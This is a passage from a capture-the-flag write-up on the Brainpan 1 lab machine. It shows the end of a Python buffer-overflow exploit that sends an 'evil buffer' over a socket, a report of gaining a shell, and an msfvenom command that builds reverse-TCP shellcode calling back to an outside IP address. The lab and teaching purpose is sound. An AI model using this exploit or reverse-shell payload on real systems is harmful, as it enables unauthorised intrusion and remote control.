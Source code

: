 ````py
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    s.recv(1024)
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
````

We run it against the remote server and gain a shell as `puck`

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn9.png)

## Local Enumeration, Switching Shell and Privilege Escalation

We are in the disk unit Z: and all seems to indicate we are into a Linux system. 

![win](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn11.png)

So we modify the exploit to gain a linux shell this time with shellcode

````shell
msfvenom -p linux/x86/shell_reverse_tcp LPORT=443 LHOST=10.11.23.211 -f py -v shellcode -a x86 –platform Linux -b "\x00"
````
